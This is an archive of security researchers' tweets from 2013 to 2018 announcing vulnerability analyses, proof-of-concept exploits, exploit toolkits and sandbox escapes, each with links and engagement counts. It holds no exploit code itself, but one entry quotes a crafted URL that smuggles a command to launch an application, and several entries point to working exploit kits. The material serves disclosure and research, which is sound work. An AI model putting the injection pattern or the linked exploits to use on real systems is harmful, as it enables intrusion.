https://t.co/ktHXyilwlN
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=842990

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# HackSysTeam
**https://twitter.com/HackSysTeam/status/1029753346813509632 _at Wed Aug 15 15:35:04 +0000 2018_**
<blockquote>
Microsoft patched one of our JScript bug which could lead to RCE and LPE on Windows as CVE-2018-8389
https://t.co/00wmlxmZsy
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8389

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---
# _bazad
**https://twitter.com/_bazad/status/1023981959519694848 _at Mon Jul 30 17:21:38 +0000 2018_**
<blockquote>
I'll be presenting "Crashing to root: How to escape the iOS sandbox using abort()" at @bevxcon this September. I'll show how to exploit CVE-2018-4280, fixed in iOS 11.4.1, by crashing maliciously in order to elevate privileges, defeat codesigning, and spawn a shell on iOS 11.2.6. https://t.co/tRxLqD55fY
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>26</code></td>
<td>Retweets: <code>318</code></td>
<td>Favorites: <code>987</code></td>
</tr></table>

---
# OPOSEC
**https://twitter.com/OPOSEC/status/1022436376812367874 _at Thu Jul 26 11:00:02 +0000 2018_**
<blockquote>
Windows local privilege escalation - Analysis and Exploit (CVE-2018-8120). https://t.co/VlgUL0FZ2R PoC: https://t.co/Df2OWJzLjQ | https://t.co/V0bycykHgl (+) #Security #225 (2018)
</blockquote>

* http://bigric3.blogspot.pt/2018/05/cve-2018-8120-analysis-and-exploit.html
* https://github.com/bigric3/cve-2018-8120/
* http://bit.ly/2kW0ybi

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1012638938014605312 _at Fri Jun 29 10:08:31 +0000 2018_**
<blockquote>
Poc/Details of Microsoft Edge Chakra Engine JIT Use-after-free Vulnerability by fortinet (CVE-2018-0946):
https://t.co/orvqaCjk0l
</blockquote>

* https://www.fortinet.com/blog/threat-research/an-analysis-of-the-use-after-free-bug-in-microsoft-edge-chakra-engine.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1007865584875397120 _at Sat Jun 16 06:00:55 +0000 2018_**
<blockquote>
Microsoft COM for Windows Remote Code Execution Vulnerability (CVE-2018-0824) Analysis and PoC
https://t.co/ndbJ5pIalp
</blockquote>

* https://codewhitesec.blogspot.com/2018/06/cve-2018-0624.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---
# matthias_kaiser
**https://twitter.com/matthias_kaiser/status/1007614242231586816 _at Fri Jun 15 13:22:10 +0000 2018_**
<blockquote>
For the COM lovers -  My analysis of CVE-2018-0624 with POC :-) https://t.co/kfPqpm9T6O
</blockquote>

* https://twitter.com/codewhitesec/status/1007614010504765440

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>85</code></td>
<td>Favorites: <code>146</code></td>
</tr></table>

---
# 360CoreSec
**https://twitter.com/360CoreSec/status/1004703755806257152 _at Thu Jun 07 12:36:56 +0000 2018_**
<blockquote>
CVE-2018-5002 – Analysis of the Second Wave of Flash Zero-day Exploit in 2018... https://t.co/gwuLu68o68
</blockquote>

* http://blogs.360.cn/blog/cve-2018-5002-en/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>135</code></td>
</tr></table>

---
# daniel_bilar
**https://twitter.com/daniel_bilar/status/999809441674522625 _at Fri May 25 00:28:41 +0000 2018_**
<blockquote>
Cybersecurity roundup May 24 by @agelastic https://t.co/XqBDXot30A
Detect Hypervisor on Win 10 x64 1803 by @daax_r https://t.co/lH1VShUKop

CERT Tapioca 2.0 for MitM analysis https://t.co/pHL6ZpmOTm

Electron MITM/RCE (bypass for CVE-2018-1000006 fix) https://t.co/mP6UfCemJv https://t.co/9FThr3FDa3
</blockquote>

* http://nuzzel.com/agelastic/2018/05/25?utm_campaign=newsletter_subscription&utm_medium=email&utm_source=nuzzel
* http://revers.engineering/detecting-hypervisor-presence-on-windows-10/
* https://github.com/CERTCC/tapioca
* https://blog.doyensec.com/2018/05/24/electron-win-protocol-handler-bug-bypass.html

<table><tr>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/997747169867296769 _at Sat May 19 07:53:57 +0000 2018_**
<blockquote>
Dell SupportAssist driver vuln to SYSTEM local privilege escalation https://t.co/RE2aMEWLjc + PoC https://t.co/W450wZavyu #vulnerability #windows #dell #privesc
</blockquote>

* https://hatriot.github.io/blog/2018/05/17/dell-supportassist-local-privilege-escalation/
* https://github.com/hatRiot/bugs/blob/master/dell-support-assist/dell-sa-lpe.cpp

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>154</code></td>
<td>Favorites: <code>246</code></td>
</tr></table>

---
# bcrypt
**https://twitter.com/bcrypt/status/995057480680931328 _at Fri May 11 21:46:05 +0000 2018_**
<blockquote>
a lot of @electronjs devs have the attitude that their app doesn't need sandboxing or keeping up-to-date with Chromium bc "it doesn't execute untrusted code". the problem is that falls apart as soon as you get XSS. https://t.co/6V6tkl8GRA

(at least Signal has sandboxing)
</blockquote>

* https://github.com/signalapp/Signal-Desktop/issues/1635

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---
# 360CoreSec
**https://twitter.com/360CoreSec/status/994166078585491456 _at Wed May 09 10:43:58 +0000 2018_**
<blockquote>
Analysis of CVE-2018-8174 VBScript 0day and APT actor related to Office targeted attack... https://t.co/OltmxiYBIP
</blockquote>

* http://blogs.360.cn/blog/cve-2018-8174-en/

<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>200</code></td>
<td>Favorites: <code>282</code></td>
</tr></table>

---
# buffaloverflow
**https://twitter.com/buffaloverflow/status/994118847048437760 _at Wed May 09 07:36:17 +0000 2018_**
<blockquote>
Hash for this sample was:
https://t.co/1RVOzKtTBF

CVE-2018-8174 IE #0day. Great analysis here:
https://t.co/vlIifdznRl https://t.co/WKTd7Iz7TA
</blockquote>

* https://www.virustotal.com/#/file/10ceb5916cd90e75f8789881af40287c655831c5086ae1575b327556b63cdb24/
* https://securelist.com/root-cause-analysis-of-cve-2018-8174/85486/
* https://twitter.com/buffaloverflow/status/989798880295444480

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/985952133206900736 _at Mon Apr 16 18:44:41 +0000 2018_**
<blockquote>
Proof-of-Concept (PoC) exploit for Windows CredSSP remote code execution vulnerability (CVE-2018-0886) is now available

Exploit Code — https://t.co/OC2wQlqA1T

Details — https://t.co/5fxl1C1v50

CredSSP RDP flaw affects all versions of Windows. https://t.co/EXPAvQw4Kl
</blockquote>

* https://github.com/preempt/credssp
* https://thehackernews.com/2018/03/credssp-rdp-exploit.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>383</code></td>
<td>Favorites: <code>409</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/985442288116658177 _at Sun Apr 15 08:58:44 +0000 2018_**
<blockquote>
New tool to perform static analysis on Python web applications (SQLi, XSS, RCE, ...) https://t.co/dMy5hwFwag #python #audit #pentest #vulnerability
</blockquote>

* https://github.com/python-security/pyt

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>148</code></td>
<td>Favorites: <code>302</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/983826111078559744 _at Tue Apr 10 21:56:38 +0000 2018_**
<blockquote>
Microsoft also released a patch for another critical RCE flaw (CVE-2018-1004), which exists in Windows VBScript Engine &amp; affects all versions of Windows.

"An attacker could host a specially crafted website that is designed to exploit the vulnerability through IE," MS explains
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---
# Yalujb
**https://twitter.com/Yalujb/status/982881935683829762 _at Sun Apr 08 07:24:49 +0000 2018_**
<blockquote>
Google Project Zero publishes WebKit bug (CVE-2018-4121) along with write-up and PoC. It achieves sandbox escape in iOS 11.2.6. #security #update
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>85</code></td>
</tr></table>

---
# mehqq_
**https://twitter.com/mehqq_/status/971049724705882114 _at Tue Mar 06 15:47:50 +0000 2018_**
<blockquote>
Found another off-by-one remote code execution vulnerability (CVE-2018-6789) in Exim mail server! It was challenging but interesting and we finally achieve RCE and bypass mitigations (ASLR, NX …) successfully. Details here:
https://t.co/41B0sprlyV
</blockquote>

* https://devco.re/blog/2018/03/06/exim-off-by-one-RCE-exploiting-CVE-2018-6789-en/

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>16</code></td>
<td>Retweets: <code>487</code></td>
<td>Favorites: <code>649</code></td>
</tr></table>

---
# _odisseus
**https://twitter.com/_odisseus/status/964033536440270848 _at Thu Feb 15 07:08:00 +0000 2018_**
<blockquote>
Public disclosure – 14/2/2018: Remote Code Execution (RCE) CVE-2018-5767 on #Tenda Router AC15. Credits: @__invictus_  cc: @MalwareMustDie 
#MalwareMustDie 
https://t.co/PCbRUHVkXI https://t.co/uG3o0Qo5Xb
</blockquote>

* https://www.fidusinfosec.com/remote-code-execution-cve-2018-5767/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---
# nuria_imeq
**https://twitter.com/nuria_imeq/status/950860665719312384 _at Tue Jan 09 22:43:43 +0000 2018_**
<blockquote>
CVE-2017-0243 PoC #exploit
Description:
Microsoft Office allows a remote code execution vulnerability due to the way that it handles objects in memory, aka "Microsoft Office Remote Code Execution Vulnerability".
https://t.co/D87FLMNZRW
</blockquote>

* https://github.com/rxwx/CVE-2017-8570

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/930425235358314496 _at Tue Nov 14 13:20:37 +0000 2017_**
<blockquote>
Chrome &lt; 62 uxss exploit (CVE-2017-5124) https://t.co/OyOnzEQau4 #Chrome #0day #vulnerability
</blockquote>

* https://github.com/Bo0oM/CVE-2017-5124

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>87</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/923885722527866880 _at Fri Oct 27 12:14:55 +0000 2017_**
<blockquote>
ASLRay : Linux ELF x32 and x64 ASLR bypass exploit with stack-spraying : https://t.co/JpPdACopS5 cc @cryptolok
</blockquote>

* https://github.com/cryptolok/ASLRay

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---
# cryptolok
**https://twitter.com/cryptolok/status/919241053219229697 _at Sat Oct 14 16:38:40 +0000 2017_**
<blockquote>
#Linux #Hacking #0day exploit to bypass ASLR #infosec #CyberSecurity 
https://t.co/I1GyqK2FWt https://t.co/ryF7lEFwoQ
</blockquote>

* https://github.com/cryptolok/ASLRay

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>209</code></td>
<td>Favorites: <code>245</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/908767937074515973 _at Fri Sep 15 19:02:14 +0000 2017_**
<blockquote>
Exploit toolkit for CVE-2017-8759 - Microsoft .NET Framework RCE (Builder + listener + video tutorial) https://t.co/uz05I6NUzv
</blockquote>

* http://seclists.org/fulldisclosure/2017/Sep/33

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/884683648880005120 _at Tue Jul 11 07:59:53 +0000 2017_**
<blockquote>
Git commit for Pwn2Own Microsoft Edge Chakra ArrayBuffer Use-After-Free vulnerability (CVE-2017-0236):
https://t.co/BHZmGipTWD
</blockquote>

* https://github.com/Microsoft/ChakraCore/pull/2959/commits/1ae7e3ce95515758b4cd7215cb4e48539a0f4031

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# maldevel
**https://twitter.com/maldevel/status/852102880685326337 _at Wed Apr 12 10:15:32 +0000 2017_**
<blockquote>
CVE-2017-3881 Cisco Catalyst RCE Proof-Of-Concept - 
https://t.co/a7XjzOINpl https://t.co/G3GxMWwePQ
</blockquote>

* https://artkond.com/2017/04/10/cisco-catalyst-remote-code-execution/
* https://github.com/artkond/cisco-rce/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/851866599472717824 _at Tue Apr 11 18:36:38 +0000 2017_**
<blockquote>
[PDF] CVE-2017-0199 (Office RTF RCE) sample analysis, IOCs and mitigation advice  https://t.co/Okf7WHtaop
</blockquote>

* https://github.com/nccgroup/Cyber-Defence/blob/master/Technical%20Notes/Office%20zero-day%20(April%202017)/2017-04%20Office%20OLE2Link%20zero-day%20v0.4.pdf

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# zenhumany
**https://twitter.com/zenhumany/status/847598026956742656 _at Thu Mar 30 23:54:51 +0000 2017_**
<blockquote>
my black hat Asia 2017 slides,https://t.co/6fdewMwk1x, and bypass ASLR in Microsoft Edge video. https://t.co/qjhRkIU5K1
</blockquote>

* https://github.com/zenhumany/blackhat_asia_2017
* https://youtu.be/Kwh5N-Ni9Lo

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>90</code></td>
</tr></table>

---
# elttam
**https://twitter.com/elttam/status/818674414925422594 _at Tue Jan 10 04:22:45 +0000 2017_**
<blockquote>
https://t.co/mVC5zKs8zg quick write-up / PoC for a firejail TOCTOU sandbox escape vuln we reported back in Nov 2016.
</blockquote>

* https://github.com/elttam/advisories/tree/master/firejail

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---
# charliesome
**https://twitter.com/charliesome/status/809623629809889280 _at Fri Dec 16 04:58:10 +0000 2016_**
<blockquote>
I found a fun little type confusion and sandbox escape vuln in mruby! Here's a detailed write up + proof of concept: https://t.co/1hHFDHkSrX
</blockquote>

* https://gist.github.com/charliesome/f3783ac404f4f486eb554df809adef7d

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---
# standa_t
**https://twitter.com/standa_t/status/753472697955254273 _at Thu Jul 14 06:14:24 +0000 2016_**
<blockquote>
Another great resource for learning VMM for Windows. It's about half a size of HyperPlatform https://t.co/oJEX9j3rZO https://t.co/tQwmpNwvgV
</blockquote>

* https://github.com/asamy/ksm

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# mdowd
**https://twitter.com/mdowd/status/751218160242597888 _at Fri Jul 08 00:55:41 +0000 2016_**
<blockquote>
Nice presentation on a Chrome sandbox escape on Android by @oldfresher at mosec2016: https://t.co/7ij3JMIIWu
</blockquote>

* https://github.com/secmob/mosec2016

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---
# wpawlikowski
**https://twitter.com/wpawlikowski/status/720539071060295681 _at Thu Apr 14 09:07:56 +0000 2016_**
<blockquote>
Nice writeup of CVE-2015-6086 (Microsoft Internet Explorer 9/10/11) ASLR bypass: https://t.co/2eSWmMywhr #vulndev #exploit #security
</blockquote>

* https://github.com/payatu/CVE-2015-6086/blob/master/OOB_Read_IE10_IE11_ASLR_Bypass.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---
# HackSysTeam
**https://twitter.com/HackSysTeam/status/689091608680239104 _at Mon Jan 18 14:26:56 +0000 2016_**
<blockquote>
From Crash to Exploit: CVE-2015-6086 - Out of Bound Read/ASLR Bypass write-up and exploit.
https://t.co/oBDocGyI7F
https://t.co/dkqNYwOfp8
</blockquote>

* http://www.payatu.com/from-crash-to-exploit/
* https://github.com/payatu/CVE-2015-6086

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---
# natashenka
**https://twitter.com/natashenka/status/677630443693436929 _at Thu Dec 17 23:24:22 +0000 2015_**
<blockquote>
My first Chrome sandbox escape ❤️ https://t.co/kMcfHirSNj
</blockquote>

* https://code.google.com/p/google-security-research/issues/detail?id=664

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>97</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---
# dronesec
**https://twitter.com/dronesec/status/618444682436022272 _at Tue Jul 07 15:41:17 +0000 2015_**
<blockquote>
Single chain Chrome RCE, no sandbox https://t.co/GIUKE3MwDG
</blockquote>

* https://code.google.com/p/google-security-research/issues/detail?id=364#c3

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# taviso
**https://twitter.com/taviso/status/553323713433575425 _at Thu Jan 08 22:53:48 +0000 2015_**
<blockquote>
Well that didn't take long ;-) https://t.co/8cLYIK6IKZ =&gt; http://t.co/6Mu2Z2ljmo
</blockquote>

* https://github.com/WhiteHatSecurity/Aviator/blob/master/src/chrome/browser/championconfig/ConnectionControl/ConnectionControlManager.cc#L166
* http://www.google.com/;/Applications/Calculator.app/Contents/MacOS/Calculator;:Error138

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>124</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---
# nrathaus
**https://twitter.com/nrathaus/status/336816140724604928 _at Tue May 21 12:10:00 +0000 2013_**
<blockquote>
0day Windows PE (all versions) "bomb" dropped in Full Disclosure http://t.co/6LXPwksfxq ( #SSD )
</blockquote>

* http://seclists.org/fulldisclosure/2013/May/111

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>14</code></td>
</tr></table>

---
